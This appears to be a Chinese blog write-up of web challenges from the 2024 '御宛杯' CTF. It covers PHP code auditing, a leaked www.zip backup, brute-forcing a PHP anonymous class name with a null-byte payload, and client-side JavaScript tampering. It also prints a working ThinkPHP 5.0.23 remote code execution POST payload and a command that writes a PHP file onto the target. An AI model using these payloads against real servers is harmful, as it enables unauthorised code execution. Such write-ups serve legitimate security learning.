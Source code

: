```yaml
---
title: 御宛杯2024
date: 2024-09-15 20:21:12
tags: 复现
categories: 比赛复现
---
```


### **来签个到吧~~**

![image-20240915202210810](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409152022931.png)

我们审计代码，转义16进制为ascii码得到

```
<?php
// 禁止显示错误报告
error_reporting(0);

// 显示当前文件的源代码
highlight_file(__FILE__);

// 检查请求参数 'id' 是否等于 base64 编码后的 "henan"
if (!($_REQUEST["id"] == base64_encode("henan"))) {
    // 如果不等于，跳转到 lklsgyy 标签
    goto lklsgyy;
}

// 如果等于，输出环境变量 GZCTF_FLAG 的值
echo getenv("\107\132\103\124\106\137\106\114\101\107");

// 标签 lklsgyy（没有代码）
lklsgyy:

```

```
?id=aGVuYW4=
```

得到flag

### 貌似露了点什么？！

我们扫描目录，发现存在www.zip，我们将文件下载下来

发现里面有个文件

![image-20240915202925278](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409152029356.png)

我们用记事本打开，得到flag



### **记得匿名哟~**

这题考的是php的匿名类

```
<?php
highlight_file(__FILE__);
error_reporting(0);
$a = new class {
    function getflag()
    {
        system('cat /flag.txt');
    }
};
unset($a);
$a = $_GET['class'];
$f = new $a();
$f->getflag();
?>
```

我们先代码审计

先定义了一个匿名类并创建了一个对象

删除了之前创建的匿名类对象

然后通过`$_GET['class']`来获取外部传入的参数并赋值给`$a`：

这里有一个unset的操作，去搜一下就可以发现很多关于unset的解释，因为这个匿名类没有到256字节的长度，所以unset不会马上就删除掉它的内存，只是把这个名字给擦去了。

那么我们只需要找到这块内存，然后扒出来就行了。

```
<?php
$a = new class {
    function getflag()
    {
        system('cat /flag.txt');
    }
};

$f = new $a();
echo get_class($f);
$f->getflag();
?>
```

![image-20240915203451573](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409152034610.png)

找到了如何调用这个匿名类，但是有个问题就是，最后的数字一定要对上，:后面是类所在的行，$0后面是访问次数，要一致

payload

```
?class=class@anonymous%00/var/www/html/index.php:4$0
```

我们进行爆破

得到flag

![image-20240915203836297](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409152038359.png)



### 哎哟你干嘛~~

![image-20240918195118593](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181951788.png)

我们看到题目需要我们点击图片99999999次，我们想到修改js或bp发包，我试了下bp发包不可行，那我们就尝试修改js

![image-20240918195358478](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181953612.png)

我们在index.js里面发现，如果H1的值是99999999的话，就会输出flag

我们在控制台进行修改，将H1改为99999998

![image-20240918195510423](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181955504.png)

我们再点击一下图片就能得到flag

![image-20240918195535495](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181955559.png)

进行base64解码得到flag



### 包简单，一把梭

![image-20240918195640146](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181956170.png)

刚看到这个题我以为是sql注入，但尝试了很久后发现没啥用，我们扫描目录

![image-20240918195729206](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409181957268.png)

当目录为www.zip时报错，并提示了[ThinkPHP](http://www.thinkphp.cn/) V5.0.23 ，我们想到[ThinkPHP](http://www.thinkphp.cn/) V5.0.23 （远程代码执行）漏洞

漏洞引入：

其5.0.23以前的版本中，获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞

漏洞利用

- 1、访问靶机地址+端口号传入，url后接入/index.php?s=captcha进入首页
- 2、Burp抓包修改传参方式为Post，传入参数为"_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=pwd"，其中pwd为系统执行命令可进行一系列操作。

我们进行尝试

![image-20240918200229269](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409182002427.png)

成功执行

我们尝试重定向写入phpinfo

```
echo "<?php phpinfo(); ?>" > info.php
```

我们访问info.php

![image-20240918200405203](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409182004383.png)

执行成功

我们搜索flag

![image-20240918200510309](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409182005373.png)

找到flag

### 玩会小游戏吧

题目提示玩到9999分就能得到flag，玩是不可能玩的，我们考虑修改js

![image-20240919080942210](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409190809559.png)

我们修改重新开始的js方法的distanceRun为一个超大的值，flag就自己出来了



